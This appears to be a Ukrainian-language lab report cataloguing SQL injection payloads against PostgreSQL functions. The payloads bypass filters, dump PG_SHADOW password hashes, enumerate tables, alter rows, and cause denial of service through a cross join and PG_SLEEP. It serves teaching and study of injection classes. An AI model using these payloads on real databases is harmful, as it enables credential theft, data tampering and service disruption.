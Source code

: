 ## Порушення конфіденційності

### SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту"

Приклад SQL-ін'єкції підкласу "Зняття фільтрації рідків умови SQL-запиту":<br>
```SELECT * FROM get_data('Petrov'' OR 1=1 -- ');```<br>
![Результат SQL-ін'єкції](secure_screenshots/1.png)

### SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL-запит"

Приклад SQL-ін'єкції підкласу "Отримання вмісту таблиць, що не входять у SQL-запит":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT CAST(USESYSID AS INTEGER),CAST(USENAME AS VARCHAR), CAST(PASSWD AS VARCHAR) FROM PG_SHADOW --');```<br>
![Результат SQL-ін'єкції](secure_screenshots/2.png)

### SQL-ін'єкція підкласу "Отримання структури таблиць БД"

Приклад SQL-ін'єкції підкласу "Отримання структури таблиць БД":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT 1,CAST(TABLE_NAME AS VARCHAR),CAST(NULL AS VARCHAR) FROM INFORMATION_SCHEMA.TABLES -- ');```<br>
![Результат SQL-ін'єкції](secure_screenshots/3.png)

## Порушення цілісності даних

### SQL-ін'єкція підкласу "Порушення цілісності вмісту таблиць БД"

Приклад SQL-ін'єкції підкласу "Порушення цілісності вмісту таблиць БД":<br>
```SELECT * FROM change_data('Petrov'' OR 1 = 1 -- ',1);```<br>
![Результат SQL-ін'єкції](secure_screenshots/4.png)

## Порушення доступності

### SQL-ін'єкція підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер"

Приклад SQL-ін'єкції підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT a1, cast(a1 as varchar) as name, current_date + a1 as bd FROM (SELECT generate_series a1 FROM generate_series(1, 1000)) t1 CROSS JOIN (SELECT * FROM generate_series(1, 1000) t2) t3 -- ');```<br>
![Результат SQL-ін'єкції](secure_screenshots/5.png)

### SQL-ін'єкція підкласу "Включення підзапиту зі сплячим процесом"

Приклад SQL-ін'єкції підкласу "Включення підзапиту зі сплячим процесом":<br>
```SELECT * FROM change_data(1,'Petrov'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');```<br>
![Результат SQL-ін'єкції](secure_screenshots/6.png)
